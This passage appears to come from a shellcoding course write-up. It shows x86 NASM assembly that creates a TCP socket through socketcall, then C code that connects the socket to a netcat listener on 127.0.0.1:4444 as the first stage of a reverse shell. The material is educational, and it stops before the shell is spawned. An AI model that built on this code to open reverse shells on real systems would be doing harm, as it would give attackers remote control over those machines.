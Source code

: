 As for the 1st assignment, a socket can be created by means of the `socketcall` system function:

```nasm
; Author: Robert Catalin Raducioiu (rbct)

global _start

section .text

_start:

    ; clear EAX, EBX, and ECX registers
    xor eax, eax
    mov ebx, eax
    mov ecx, eax

    ; copy 102 into EAX: socketcall() syscall
    mov al, 102

    ; 3rd argument of socket(): IPPROTO_TCP (0x6)
    mov cl, 6
    push ecx

    ; 1st argument of socketcall(): SYS_SOCKET
    ; 2nd argument of socket(): SOCK_STREAM (0x00000001)
    inc bl
    push ebx

    ; 1st argument of socket(): AF_INET
    mov cl, 2
    push ecx

    ; 2nd argument of socketcall(): pointer to the arguments for SYS_SOCKET call
    mov ecx, esp

    ; call syscall
    int 0x80

    ; save server socket file descriptor
    mov esi, eax
```

As you can see, the syscall `socketcall` (n. 102, or `0x66`) calls `socket()`, to which the parameters `AF_INET`, `SOCK_STREAM`, `IPPROTO_TCP` are passed in order to create a TCP socket.

Once the socket has been created, we need to connect it to the remote server, in this case the netcat listener:

```cpp
    client_address.sin_family = AF_INET;
    inet_aton("127.0.0.1", &amp;client_address.sin_addr);
    client_address.sin_port = htons(4444);

    connect(
        client_socket_fd,
        (struct sockaddr *)&amp;client_address,
        sizeof(client_address)
    );
```

